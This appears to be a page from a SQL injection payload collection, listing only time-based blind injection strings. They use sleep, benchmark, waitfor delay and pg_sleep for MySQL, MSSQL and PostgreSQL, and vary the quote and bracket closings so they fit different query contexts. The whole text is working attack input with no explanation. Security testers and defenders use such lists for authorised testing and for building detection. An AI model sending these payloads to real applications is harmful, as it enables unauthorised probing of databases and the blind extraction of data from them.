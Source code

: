 ### Time Based Payloads
```
sleep(5)#
1 or sleep(5)#
" or sleep(5)#
' or sleep(5)#
" or sleep(5)="
' or sleep(5)='
1) or sleep(5)#
") or sleep(5)="
') or sleep(5)='
1)) or sleep(5)#
")) or sleep(5)="
')) or sleep(5)='

;waitfor delay '0:0:5'--
);waitfor delay '0:0:5'--
';waitfor delay '0:0:5'--
";waitfor delay '0:0:5'--
');waitfor delay '0:0:5'--
");waitfor delay '0:0:5'--
));waitfor delay '0:0:5'--
'));waitfor delay '0:0:5'--
"));waitfor delay '0:0:5'--

benchmark(50000000,MD5(1))
benchmark(50000000,MD5(1))--
benchmark(50000000,MD5(1))#
or benchmark(50000000,MD5(1))
or benchmark(50000000,MD5(1))--
or benchmark(50000000,MD5(1))#
benchmark(10000000,MD5(1))#
1 or benchmark(10000000,MD5(1))#
" or benchmark(10000000,MD5(1))#
' or benchmark(10000000,MD5(1))#
1) or benchmark(10000000,MD5(1))#
") or benchmark(10000000,MD5(1))#
') or benchmark(10000000,MD5(1))#
1)) or benchmark(10000000,MD5(1))#
")) or benchmark(10000000,MD5(1))#
')) or benchmark(10000000,MD5(1))#
+benchmark(3200,SHA1(1))+'

pg_sleep(5)--
1 or pg_sleep(5)--
" or pg_sleep(5)--
' or pg_sleep(5)--
1) or pg_sleep(5)--
") or pg_sleep(5)--
') or pg_sleep(5)--
1)) or pg_sleep(5)--
")) or pg_sleep(5)--
')) or pg_sleep(5)--

AND (SELECT * FROM (SELECT(SLEEP(5)))bAKL) AND 'vRxe'='vRxe
AND (SELECT * FROM (SELECT(SLEEP(5)))YjoC) AND '%'='
AND (SELECT * FROM (SELECT(SLEEP(5)))nQIP)
AND (SELECT * FROM (SELECT(SLEEP(5)))nQIP)--
AND (SELECT * FROM (SELECT(SLEEP(5)))nQIP)#

SLEEP(5)#
SLEEP(5)--
SLEEP(5)="
```